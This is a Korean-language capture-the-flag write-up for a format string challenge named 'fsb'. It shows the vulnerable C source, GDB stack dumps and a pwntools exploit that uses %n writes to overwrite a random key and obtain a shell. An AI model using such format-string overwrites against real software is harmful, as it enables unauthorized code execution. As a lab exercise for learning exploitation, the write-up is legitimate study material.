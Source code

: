 ```yaml
---
sort: 7
---
```


# fsb

home 디렉토리에 fsb.c에 소스코드가 있다.

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
        char* args[]={"/bin/sh", 0};
        int i;

        char*** pargv = &argv;
        char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        *pargv=0;
        *penvp=0;

        for(i=0; i<4; i++){
                printf("Give me some format strings(%d)\n", i+1);
                read(0, buf, 100);
                printf(buf);
        }

        printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);

        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
        return 0;
}

int main(int argc, char* argv[], char** envp){

        int fd = open("/dev/urandom", O_RDONLY);
        if( fd==-1 || read(fd, &key, 8) != 8 ){
                printf("Error, tell admin\n");
                return 0;
        }
        close(fd);

        alloca(0x12345 & key);

        fsb(argv, envp); // exploit this format string bug!
        return 0;
}
```

`/dev/urandom`을 이용해 key를 random값으로 채운 후, pw와 비교해서 똑같으면 shell을 실행시켜주는 코드이다.<br>
random값을 우리가 때려맞출 수 없기 때문에 pw를 입력하기 전에 fsb를 사용할 수 있게 해줬다.<br>
fsb로 key를 원하는 값으로 바꾼 후에 pw에 바꾼 값을 넣으면 될 것 같다.<br><br>
key길이가 8byte이기 때문에 `%hn`을 이용해 2byte씩 4번 변조하면 될 것으로 여겨진다.<br>

key는 전역변수이기 때문에 data영역에 저장이 되어있을 것이고, aslr이 적용되지 않았기 때문에 고정된 주소값을 가지게 된다.<br>
main함수에 `read(fd, &key, 8)`부분을 확인하면 된다.

```
(gdb) x/gx 0x804a060
0x804a060 <key>:        0x0000000000000000
```

key의 주소는 `0x804a060`이다.<br>
fsb를 이용해서 key값을 잘 조작해서 풀면 될 것 같다.

```
   0x08048676 <+322>:   call   0x8048460 <strtoull@plt>
   0x0804867b <+327>:   mov    %eax,%edx
   0x0804867d <+329>:   sar    $0x1f,%edx
   0x08048680 <+332>:   mov    %eax,-0x30(%ebp)
   0x08048683 <+335>:   mov    %edx,-0x2c(%ebp)
```
그런데 웃긴 사실은, pw에 입력값이 온전하게 저장되는 것이 아니다.<br>
edx에 strtoull의 결과값의 상위 4byte가 들어가고 eax에 하위 4byte가 들어가는데, edx가 eax로 덮어씌워지고나선, 31번 arithmetic right shift를 한다. 즉, edx는 eax의 MSB로 채워진다는 소리이다.<br>
따라서 소스코드와는 다르게 동작하는 부분이 존재하게 되고, 결론적으로 key값의 상위 4byte는 하위 4byte의 MSB로 채워져야 한다는 소리이다.<br>
그래서 상위 4byte에는 0을 넣었고, 하위 4byte에는 대충 MSB가 0이 되도록 했다.<br>
`char*** pargv = &argv; char*** penvp = &envp;` 부분을 이용해 fsb의 함수 인자가 저장되는 위치를 알 수 있기 때문에 해당하는 부분에 key의 상위 4byte주소와 하위 4byte주소를 넣은 뒤, key를 공격할 것이다.<br><br>

```
Give me some format strings(1)
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
804a100 64 0 0 0 0 0 0 8048870 0 0 ffbab008 ffbacfe9 ffb9acb0 ffb9acb4 0 0 ffbaaf08 8048791 0 0 0 0 0 0

(gdb) x/4wx $ebp
0xffb9aca8:     0xffbaaf08      0x08048791      0x00000000      0x00000000
```

stack memory가 어떻게 생겼는지 알아보기위해 대충 %x 엄청 넣고 돌려봤다.<br>
ebp부분도 저렇게 출력시켜보니, 0x08048791이 return address인 것을 알 수 있다.<br>
그리고 return address의 주소는 0xffb9acac인 것을 알 수 있다.<br>
따라서 pargv와 penvp에는 0xffb9acb0과 0xffb9acb4가 저장되어있을 것이다.<br>
따라서 이것을 잘 활용하여 key를 변조하면 될 듯 하다.<br>

```python
from pwn import *

p = process('/home/fsb/fsb')
p.recvline()

# 0x804a060을 fsb함수의 첫번째 argument자리에 입력하기 위해 0x804a060 byte를 출력한 후 pargv값을 이용
p.sendline('%134520928x%14$n')
p.recvline()
p.recvline()
# 0x804a064를 fsb함수의 두번째 argument자리에 입력하기 위해 0x804a064 byte를 출력한 후 penvp값을 이용
p.sendline('%134520932x%15$n')
p.recvline()
p.recvline()
# key 상위 4byte에 0 넣기
p.sendline('%21$n')
p.recvline()
p.recvline()
# key 하위 4byte에 8 넣기
p.sendline('%8x%20$n')
p.recvline()
p.recvline()
p.sendline('8')

p.interactive()
```

왠진 모르겠는데, key 상위 4byte에 0넣는 것과 key 하위 4byte에 8넣는 것의 순서를 바꾸면 segmentation fault가 뜬다.... 이 부분에 대해선 나중에 시간날 때 더 살펴봐야겠다..


```tip
## 알게 된 점

fsb
```